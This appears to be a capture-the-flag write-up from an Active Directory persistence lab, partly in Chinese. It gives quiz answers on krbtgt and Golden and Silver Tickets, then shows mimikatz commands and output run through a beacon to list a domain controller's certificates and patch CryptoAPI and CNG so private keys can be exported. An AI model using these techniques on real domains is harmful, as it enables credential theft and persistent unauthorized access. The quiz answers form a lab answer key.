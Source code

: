 > Which AD account's NTLM hash is used to sign Kerberos tickets?

> krbtgt

> What is the name of a ticket that impersonates a legitimate TGT?

> Golden Tickets

> What is the name of a ticket that impersonates a legitimate TGS?

> Silver Tickets

> What is the default lifetime (in years) of a golden ticket generated by Mimikatz?

> 10

# Task 4  Persistence through Certificates

枚举证书信息
```
beacon> mimikatz crypto::certificates /systemstore:local_machine
[*] Tasked beacon to run mimikatz's crypto::certificates /systemstore:local_machine command
[+] host called home, sent: 750710 bytes
[+] received output:
 * System Store  : 'local_machine' (0x00020000)
 * Store         : 'My'

 0. 
    Subject  : 
    Issuer   : DC=loc, DC=tryhackme, DC=za, CN=za-THMDC-CA
    Serial   : 0800000000006f4c69a01c8fbbad0800000010
    Algorithm: 1.2.840.113549.1.1.1 (RSA)
    Validity : 5/11/2022 2:29:07 PM -> 5/11/2023 2:29:07 PM
    Hash SHA1: de718d0c39b7b8564b1a4ad73acc1dcecf6fc692
	Key Container  : 8d822ca2f7b58a2dc5da34819224d0a4_cf5b8e23-6097-4b09-af93-e79b05557c3f
	Provider       : Microsoft RSA SChannel Cryptographic Provider
	Provider type  : RSA_SCHANNEL (12)
	Type           : AT_KEYEXCHANGE (0x00000001)
	|Provider name : Microsoft RSA SChannel Cryptographic Provider
	|Key Container : te-ComputerCertificateTemplate-6aec0025-30fd-4cf4-b476-d4a796f9af9e
	|Unique name   : 8d822ca2f7b58a2dc5da34819224d0a4_cf5b8e23-6097-4b09-af93-e79b05557c3f
	|Implementation: CRYPT_IMPL_SOFTWARE ; 
	Algorithm      : CALG_RSA_KEYX
	Key size       : 2048 (0x00000800)
	Key permissions: 0000003b ( CRYPT_ENCRYPT ; CRYPT_DECRYPT ; CRYPT_READ ; CRYPT_WRITE ; CRYPT_MAC ; )
	Exportable key : NO
```

使用mimikatz打补丁是的证书的秘钥可以被导出
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
```
